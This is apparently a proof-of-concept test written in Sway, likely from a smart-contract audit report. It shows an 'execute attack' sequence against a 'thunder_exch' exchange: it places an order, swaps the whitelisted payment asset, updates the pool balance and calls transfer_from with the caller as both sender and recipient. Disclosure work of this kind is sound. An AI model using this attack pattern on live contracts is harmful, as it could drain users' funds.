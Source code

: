 ```sway
    thunder_exch.set_royalty_manager(royalty_manger_contract);

    //----------------------execute attack --------------------------------//

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Buy,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    thunder_exch.place_order(maker_order);

    //now remove the whitelist token and add another one 

    asset_mngr.remove_asset(0);

    let asset_to_add1 = AssetId::from(0x7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777);
    
    asset_mngr.add_asset(asset_to_add1);

    //STEP 1: call update with new paymentAsset, this is similar to calling the deposit function, its built-in function by us since sway does not allow calling payable funcitons in test suit

    pool.update_balance(asset_to_add1, 20u64); // 20 eth for example

    //STEP 2: add bid order

    pool.transfer_from(caller, caller, 20u64 ) // nothing prevent setting the caller as from or to !
}
```
